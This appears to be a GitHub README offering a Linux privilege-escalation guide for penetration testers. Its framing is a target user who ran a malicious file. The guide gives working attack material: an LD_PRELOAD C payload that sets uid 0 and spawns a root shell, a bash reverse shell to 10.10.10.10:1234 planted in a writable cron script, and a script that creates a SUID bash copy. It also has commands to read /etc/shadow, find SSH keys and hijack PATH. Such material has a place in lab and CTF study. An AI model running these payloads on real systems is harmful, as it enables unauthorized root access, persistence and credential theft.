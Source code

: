 # Linux-PrivEsc-full-guide

Hi Folks! I made this repo that share the privilege escalation techniques I tend to use on Linux systems. At the moment, you will see basic stuff which works the best IRL but later I am going to add CTF specific techniques. Let's get into it!

# Enumeration

So, one of the your target company's users downloaded and executed a malicious file you happened to send them. You found credentials in clear text and connected back to the machine using SSH. What's the first thing you do? Identify where the hell are you and what you can do at this point of the engagement. For that I use the following commands:

## Some basic enumeration and easy wins
```sh
cat ~/.*history | less             # identify previously executed commands in the shell
whoami                             # enumerate the user
id                                 # enumerate the user
cat /etc/{passwd,shadow,group}     # check if we can see the stored passwords, users, groups
ls -l /etc/{shadow,passwd}         # check if we can write into the previously mentioned files
cat /etc/{passwd,group}            # same but without shadow (usually 'Permission denied')
ps aux | grep --ignore-case root   # see unusual processes and processes run by the root user
ls -l /.ssh                        # look for SSH keys, that you can download and connect back
locate "/*.ovpn"                   # identify vpn files that could help you pivot
find . -type f -iname "*vpn*"      # same just with the find command
```

## Further enumeration of the system, kernel version, errors..etc
```sh
hostname
hostname --all-{fqdns,ip-addresses}
uname --kernel-{name,release,version}
uname --all
lscpu

cat /proc/{version,issue}
cat /etc/os-release

# for modules
lsmod
lsmod | cut -d ' ' -f 1 | sort --unique

# oneliner: outputs errors(e.g the usual shadow permission denied) to file `err`
cat {/proc/{version,issue},/etc/{passwd,shadow,group,os-release}} 2>err

sudo -l                            # to check which commands I can run as a super user without the password
```

Sudo -l is the first thing you execute after gaining a foothold, you can have some easy wins with that. After checking the output go to https://gtfobins.github.io/ and note down, the binaries which are present on the system and can be executed with the sudo command without knowing the pass.

After executing `sudo -l` check the value of LD_PRELOAD, \
if you see something like this: `env_keep += LD_PRELOAD` - Than you can use the following little `C src` to gain root access:

### C Source code

in.c

```c
/*
 * author: An00bis
 * file: in.c
 */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init(){
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```

### Compilation
Usually, gcc is by default installed on most* systems.
We can compile it with `gcc -o out.elf in.c`
which takes `in.c` (our c source) 
and outputs `out.elf` (a executable) \
to run it: `./out.elf`


# Cron Jobs

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals.

cat /etc/crontab                      # check for cron jobs
locate example.sh                     # Find from where the file executes
ls -l /usr/local/bin/example.sh       # check if the file is world-writable

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/1234 0>&1  # Overwrite the file with this simple one-liner, open up a listening port on 1234 and wait for the call-back

cat /etc/crontab                      # check for cron jobs, look for the PATH variable

Here I will leave an example: /home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin. In this case the PATH variable is /home/user, we are going to invoke a shell here with root priviliges.

Create a file with the following content:

```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

chmod +x /home/user/example.sh        # make the file executable and wait a minute or two
/tmp/rootbash -p                      # invoke the shell with the following command


cat /usr/local/bin/example.sh         # check the content of a cronjob and look for wildcards (*)

Check gtfobins for exploitation methods and use them. You can find a lot of things, but the basic idea is that you trick the program to think that the commands thar are going to be executed are part of it's features. This way you can gain trick the binary to rain a metasploit reverse-shell, execute additional commands or to simply elevate you to root.


# Network enumeration

```sh
ifconfig   # to see network interfaces, ip addresses..etc
ip a       # alternative for ifconfig
ip -c a    # output in color
arp -a     # check to ARP table and discover additional assets on the subnet
ip neigh   # alternative for the arp command
ip route   # check the route table and discover gateways, additional IPs
netstat    # to see active connections

wireshark                                 # The network traffic analyzer - Wireshark
tcpdump -i <interface> -s 65535 -w <file> # The command-line network traffic analyzer - TCPDump
```

## Try to sniff traffic, it's less noisy and you have more data to work with during the engagement

# SUID / GUID binaries

The flags setuid and setgid are needed for tasks that require different privileges than what the user is normally granted, such as the ability to alter system files or databases to change their login password. When the setuid or setgid attributes are set on an executable file, then any users able to execute the file will automatically execute the file with the privileges of the file's owner (commonly root) and/or the file's group, depending upon the flags set. I highly suggest to you to do your research on this topic because I can't cover everything in a single gitHub post.



find . -perm /6000                                                                  # Identify files where both the setuid and setgid flags are set
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null     # same just with a different command

Look for public exploits using Google, Exploit-db, Yandex...etc

strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"          

Use this commands on the binary to see the objects it's trying to load, try to overwrite objects with a reverse-shell to gain root access.

strings /usr/local/bin/example

From the strings output check the paths, from where the other executables are called. Try to overwrite them with a simple bash shell, add the route to the PATH variable and execute the file.

PATH=.:$PATH /usr/local/bin/example
./example

# Before finishing

This is just quick overview of this topic, as you can see, most of the time we overwrite files, abuse call functions and use public exploits to elevate our priviliges but with a little creativity you can do so much more. :)

If permitted use automatization tools to not lose too much time on this part of the penetration testing process:

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
https://github.com/The-Z-Labs/linux-exploit-suggester

Resources to help you understand better the privilige escalation process:

https://www.udemy.com/course/linux-privilege-escalation/?referralCode=0B0B7AA1E52B4B7F4C06
https://tryhackme.com/room/linuxprivescarena
https://tryhackme.com/room/linuxprivesc
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md




